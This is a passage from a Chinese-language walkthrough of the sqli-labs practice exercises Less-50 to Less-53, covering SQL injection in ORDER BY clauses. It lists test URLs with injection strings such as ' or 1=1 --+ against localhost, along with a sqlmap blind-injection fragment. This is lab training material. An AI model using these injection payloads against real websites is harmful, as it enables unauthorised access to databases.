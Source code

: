 sqlmap跑user()的盲注语句：

> -   THEN 3452 ELSE 3452 \_(SELECT 3452 FROM INFORMATION\_SCHEMA.PLUGINS)\
>     END))

## Less-50

### GET数字型orderby从句层次化查询注入

测试：

> http://localhost/Less-50/?sort=0%27%20or%201=1%20--+"
>
> http://localhost/Less-50/?sort=0%20or%201=1%20--+"
>
> http://localhost/Less-50/?sort=0%20desc--+"

判断为数字型orderby从句注入

payload同`Less46`

## Less-51

### GET字符型orderby从句层次化查询注入

测试：

> http://localhost/Less-51/?sort=0%27%20or%201=1%20--+"
>
> http://localhost/Less-51/?sort=0%20or%201=1%20--+"
>
> http://localhost/Less-51/?sort=0%27%20desc--+"

单引号字符型orderby从句注入

payload同`Less-47`

## Less-52

### GET数字型orderby从句层次化查询盲注

测试:

> http://localhost/Less-52/?sort=0%27%20or%201=1%20--+"
>
> http://localhost/Less-52/?sort=0%20or%201=1%20--+"
>
> http://localhost/Less-52/?sort=0%27%20desc--+"

数字型orderby从句注入

payload同Less-48

## Less-53
